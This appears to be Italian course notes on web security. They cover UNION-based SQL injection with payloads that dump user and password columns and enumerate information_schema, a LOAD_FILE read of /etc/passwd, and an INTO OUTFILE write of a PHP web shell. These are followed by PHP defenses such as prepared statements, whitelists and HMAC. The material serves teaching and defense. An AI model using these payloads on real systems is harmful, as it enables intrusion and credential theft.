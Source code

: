 Abbiamo visto come sfruttare nelle [[Terzo anno/Sicurezza/Web security/Server/Web attacks#SQL injection|sql injection]] la clausola `where` in query che non controllano l'input dell'utente in modo da far sempre valere la condizione.

È anche possibile effettuare un leak di altre tabelle attraverso `UNION` oppure `UNION ALL`, ma per farlo <u>serve conoscere il numero di colonne</u>, è possibile dunque procedere per **brute-force** finchè non si ottiene qualche forma di output (se il numero di colonne inserito è sbagliato la query fallisce).
```
... WHERE lastname = '' UNION ALL SELECT 1 #'
... WHERE lastname = '' UNION ALL SELECT 1,1 #'
... WHERE lastname = '' UNION ALL SELECT 1,1,1 #
```

Poi sempre tramite brute-force si provano nomi comuni per tabelle:
```
… WHERE lastname = '' UNION ALL SELECT 1,1,1 FROM people #'
```

Le colonne possono essere **concatenate** in una singola per aggirare il vincolo imposto da `UNION`:
```
' UNION ALL SELECT CONCAT(name,'|',lastname), password, url FROM people #
```

Anche le righe possono essere **agglomerate** in una singola nel caso la web app mostri un singolo risultato:
```
' UNION ALL SELECT GROUP_CONCAT(name, '|', lastname, '|', password SEPARATOR ' '), 1, 1 FROM people #
```

Molti sistemi hanno un database speciale **information_schema** il quale memorizza le informazioni degli altri db del sistema.
```sql
-- List databases
SELECT schema_name FROM information_schema.schemata

-- List tables
SELECT table_schema, table_name FROM information_schema.tables

-- List the columns of all relevant databases
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema NOT LIKE '%_schema'
```

Se l'utente del db che esegue la query ha il privilegio **FILE** esso potrà **leggere** i file tramite `LOAD_FILE("etc/passwd")` è possibile anche creare file:
```sql
SELECT '<?php passthru($_GET["cmd"]); ?>' INTO OUTFILE
'/var/www/pwn.php'
```

## Security best practices (PHP)
1. Usare l'operatore di **uguaglianza stretta**: `===`
2. Eseguire il **casting dei valori** o controllare il loro tipo prima di applicargli una funzione
```php
strcmp((string)$input, $token) === 0
```

3. Usare una **whitelist** per limitare gli input dell'utente
```php
$whitelist = array('home.html','about.html');
// check that the name is in $whitelist
// the third parameter (true) requires strict comparison!
if (isset($_GET["p"]) and in_array($_GET["p"], $whitelist, true)) 
```

4. Controllare l'**integrità dell'input** utente prima che esso sia passato a funzioni _pericolose_
	Ad esempio durante la deserializzazione, questo controllo va fatto _prima_ di deserializzare

Un meccanismo standard per verificare i messaggi è l'**Hash-based MAC (HMAC)**, il quale rende infattibile la computazione dell'hash corretto senza la **chiave**.
![[HMAC.png]]

La web app genera una chiave interna $k$, il valori sono esportati con l'HMAC associato, quando sono poi importati l'HMAC viene ri-computato per controllare che sia uguale.
```php
string hash_hmac(
	string $algo,
	string $data,
	string $key [, bool $raw_output = FALSE ]
)
```
>Dato che $k$ è conosciuto solo dall'applicazione un HMAC valido prova che il valore non è stato modificato.

5. Usare **funzioni/API sicure** se disponibili

I **prepared statements** inizialmente sono stati creati per rendere più veloci le query, ma essi prevengono anche sql injection in quanto la query è già stata analizzata e "pre-computata", quindi non è possibile che un attaccante inserisca codice che venga interpretato come parte della query.
```sql
mysql> PREPARE stmt1 FROM 'SELECT * FROM people WHERE lastname=?';
mysql> set @n = 'Mario';
mysql> EXECUTE stmt1 USING @n;
+---+---+
|   |   |
+---+---+

mysql> set @n = "'' OR 1";
mysql> EXECUTE stmt1 USING @n;
Empty set (0.00 sec)
```

Anche PHP offre API per i prepared statements:
```php
$link=new mysqli("localhost", "sqli_example", ...);
if(!$link) die('Could not connect: ' . mysqli_error());

$stmt = $link->prepare("
	SELECT name, lastname, url FROM people WHERE lastname = ?
");

$stmt->bind_param("s", $_POST['lastname']);
$stmt->execute();
```

È possibile usare i PHP **Data Object** i quali forniscono un'API uniforme per vari tipi di database:
```php
try {
	$link = new PDO("mysql:dbname=sqli_example; ...");
} catch (PDOException $e) {
	exit;
}

$stmt = $link->prepare("
	SELECT name, lastname, url FROM people
	WHERE lastname = :lastname
");

// ... = optional data type
$stmt->bindParam(':lastname', $_POST['lastname'], ... );
$stmt->execute();
```

Sebbene i _prepared statements_ evitano sql injection, non tutta la query può essere parametrizzata (e.g. il nome della tabella), si potrebbe voler verificare la bontà delle query che usano direttamente input utente, ma ciò non terrebbe conto delle **second order injections** le quali inseriscono pezzi di query non previsti in query che dipendono da altre query che usano input utente.
>Ogni query dovrebbe prevenire sql injection.

6. [[Sicurezza#Prevenire SQL injection|Sanificare le query]]
